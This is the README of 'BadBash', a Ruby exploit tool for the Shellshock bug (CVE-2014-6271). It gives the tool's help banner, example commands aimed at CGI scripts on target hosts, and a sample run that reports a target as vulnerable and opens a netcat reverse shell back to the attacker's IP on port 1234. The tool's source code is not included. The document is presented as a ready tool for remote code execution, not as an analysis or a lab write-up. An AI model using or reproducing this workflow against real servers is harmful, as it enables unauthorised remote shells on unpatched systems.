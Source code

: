 ================================================================================================

BadBash is a CVE-2014-6271 RCE exploit tool. The basic version only checks for the HTTP CGI site and only provides netcat reverse shell on port 1234.


Developer : Andy Yang
Version : 0.1.0
License : GPLv3

================================================================================================
RainMak3r@Could:~/Desktop# ruby BadBash.rb  -h
   ___           _   ___          _     
  / __\ __ _  __| | / __ __ _ ___| |__  
 /__\/// _` |/ _` |/__\/// _` / __| '_ \ 
/ \/  \ (_| | (_| / \/  \ (_| \__ \ | | |      Basic Version - 0.1 by Andy Yang
\_____/\__,_|\__,_\_____/\__,_|___/_| |_|      contactayang[AT]gmail[DOT]com

BadBash - CVE-2014-6271 RCE tool by Andy Yang
Basic version only checks for HTTP site
Basic version only provides netcat reverse shell on port 1234

EXAMPLE USAGE:
     ./BBash.rb  -t 'www.target.com/cgi-folder/cgi.sh' -d '127.0.0.1'
     ./BBash.rb  -t '10.0.0.1/cgi-folder/cgi.sh' -d '127.0.0.1'
    -t, --Target CGI path            Full path of CGI page
    -d, --Destination IP             Your IP address that listen to an inbound connection
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby BadBash.rb -t '172.16.235.140/cgi-bin/Andy.sh' -d '172.16.189.1'

[Info]     Checking if the target is vulnerable........

[Info]     This may take up to 10 seconds........

[Info]     Target is vulnerable!!!

[Info]     Please use NC to listen on port 1234 for reverse shell..........

[Info]     Exploiting for a reverse shell to connect 172.16.189.1:1234 via netcat ..........



